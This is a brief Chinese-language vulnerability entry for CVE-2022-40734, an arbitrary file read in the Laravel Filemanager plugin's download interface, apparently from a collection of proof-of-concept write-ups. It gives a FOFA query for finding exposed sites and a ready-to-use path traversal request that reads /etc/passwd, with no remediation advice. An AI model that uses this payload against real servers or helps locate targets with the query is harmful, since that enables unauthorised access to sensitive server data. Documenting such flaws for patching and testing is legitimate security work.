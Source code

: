 # Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

```
Laravel Filemanager插件
```

## FOFA

```
"Laravel Filemanager"
```

## 漏洞复现

主页面

![image-20221008100131910](./images/202210081001002.png)

验证POC

```
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![image-20221008100154056](./images/202210081001131.png)